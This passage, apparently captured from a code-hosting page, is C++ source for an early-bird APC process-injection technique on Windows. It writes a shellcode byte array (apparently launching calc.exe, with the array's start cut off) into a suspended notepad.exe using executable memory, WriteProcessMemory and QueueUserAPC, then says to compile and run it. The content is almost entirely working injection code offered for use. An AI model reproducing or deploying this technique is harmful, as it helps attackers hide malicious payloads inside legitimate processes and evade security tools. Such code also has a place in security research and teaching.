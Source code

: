 ```cpp
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(void)
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    HANDLE hProcess;
    HANDLE hThread;
    SIZE_T payload_len = sizeof(payload);
    PVOID RemoteBuff;

    ZeroMemory(&si,sizeof(si));
    ZeroMemory(&pi,sizeof(pi));

    //Create the process with a suspended state
    CreateProcessA( "C:\\Windows\\System32\\notepad.exe",NULL,NULL,NULL,FALSE,CREATE_SUSPENDED,NULL,NULL,&si,&pi);

    WaitForSingleObject(pi.hProcess,3000);
    hProcess = pi.hProcess;
    hThread = pi.hThread;

    //Allocate the memory buffer 
    RemoteBuff = VirtualAllocEx(hProcess,NULL,payload_len,MEM_COMMIT | MEM_RESERVE,PAGE_EXECUTE_READWRITE);

    //Write payload to allocated buffer
    WriteProcessMemory(hProcess,RemoteBuff,payload,payload_len,NULL);

    //Inject into the suspended thread
    LPTHREAD_START_ROUTINE apc = (LPTHREAD_START_ROUTINE)RemoteBuff;
    QueueUserAPC((PAPCFUNC)apc,hThread,NULL);

    //Alert
    ResumeThread(hThread);

    return 0;
}



```

Compile the code and run it
